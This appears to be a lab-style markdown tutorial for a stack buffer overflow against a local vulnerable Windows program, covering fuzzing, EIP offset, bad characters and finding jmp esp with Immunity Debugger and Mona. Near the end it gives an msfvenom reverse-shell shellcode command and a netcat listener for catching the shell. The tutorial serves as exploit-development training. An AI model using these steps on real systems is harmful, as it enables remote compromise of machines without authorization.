# Buffer Overflow

[1. Fuzz the Application](#fuzz-the-application)
  
[2. Replicating the Crash and Controlling EIP](#replicating-the-crash-and-controlling-eip)

[3. Find Bad Characters](#finding-bad-characters)

[4. Find the Jump Point](#find-the-jump-point) 

[5. Generate the Payload](#generate-the-payload)

[6. Exploit](#exploit)

Set a working directory for Mona from teh Immunity Debugger. Run the following command from the command line in Immunity Debugger

<code>!mona config -set workingfolder c:\mona\%p</code>



## Fuzz the Application

Launch Immunity Debugger as Administrator, and use the "File -> Open" command to bring up the vulnerable application. Notice that this does not run the aplication, it still needs to be executed.  



Click the red play button at the top of the window to execute the file



Use the program located [here](fuzzer.py) to fuzz the application. It will send strings to the application incrementing by 100 characters each time until the app crashes or it reaches a string of length 3000.

<code>python fuzzer.py</code>



Make note of when the script stops/the application crashes and the length of the string that caused the crash.

## Replicating the Crash and Controlling EIP

Use the program located [here](exploit.py) (This is the base script, we will modify it as needed with the information we acquire during the assessment of the application)

Note: that the prefix variable will need to be changed to account for whatever initial option the applications takes.

We then need to generate a string of the length of the string that crashed the application + 400. In our case, the application crashed after the 2000 string, so we will generate our string to be size 2400

<code>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400</code>



Copy this output to the "payload" field in the exploit.py script

Restart the application in the Immunity Debugger and run the exploit.py script.

<code>python exploit.py</code>

The app should crash again, run the following command in Immunity Debugger:

<code>!mona findmsp -distance 2400</code>

Note that we use the same length as the pattern we created earlier.

Mona will display a window with some output in the form of:

> EIP contains normal pattern: ... (offset XXXX)



We will then need to update our exploit.py script and set the offset variable to the value of the offset. 

Set the retn variable to "BBBB"

Set the payload back to an emptry string

Restart the application in Immunity Debugger and rerun the exploit.py script.

We should see the EIP register is now 42424242 (BBBB)



## Finding Bad Characters

We will generate a bytearray with Mona (Excluding the "\x00" character). Run the following command in Imunity Debugger

<code>!mona bytearray -b "\x00"</code>

Then, generate a string of bad characters that is identical to the bytearray. Use the python code [here](byte_array.py).



Update the payload variable in the exploit.py file with the byte array generated from the python code.

Restart the application and run the exploit.py script again.

Use the following command to print the differences between the bytearray and the values in memory

<code>!mona compare -f C:\path\to\array\bytearray.bin -a [ESP ADDRESS]</code>



Note: Not every character in the output will be a bad character, we will remove them from the generated bytearray one at a time.

<code>!mona bytearray -b "\x00\xXX\xXX"</code>

Remove these same characters from the payload in exploit.py

Restart the application and rerun the exploit.py file until Mona returns "Unmodified", this lets us know there are no bad characters left.

Note: Keep a file of these bad characters, you will need them to find the jump point.

## Find the Jump Point

While the application is crashed or running run the following Mona command in Immunity Debugger with the list of bad caracters found in the previous steps

<code>!mona jmp -r esp -cpb "\x00\xXX\xXX"</code>

This should bring up a window that will have several addresses to several "jmp esp" memory locations.



Pick an address and update the retn variable in the exploit.py file. 

Note: Keep in mind the architecture of the host. If the host is running in little endian, then the address needs to be written backwards (i.e. if the address is 123456 then the little endian address would be 654321). Convert the address to HEX by adding a "\x" before every two characters (i.e. if the address is 123456 then the HEX version would be \x12\x34\x56). If we are running in little endian then the final address would be "\x56\x34\x12".



## Generate the Payload

Use <code>msfvenom</code> to generate shellcode.

<code>msfvenom -p windows/shell_reverse_tcp LHOST=[YOUR_IP] LPORT=443 EXITFUNC=thread -b "[BAD_CHARACTERS]" -f py</code>

Copy the output to the payload variable in the exploit.py file

Note: The msfvenom command outputs the shellcode under the name buf = "...", make sure to change the name to payload before executing the script.

Add some space to allow the shellcode to unpack by setting the padding variable to:

<code>padding = "\x90" * 16</code> 

## Exploit

Setup a netcat listener 

<code>nc -lnvp 443</code>

Restart the application and run exploit.py, and we should catch a shell.
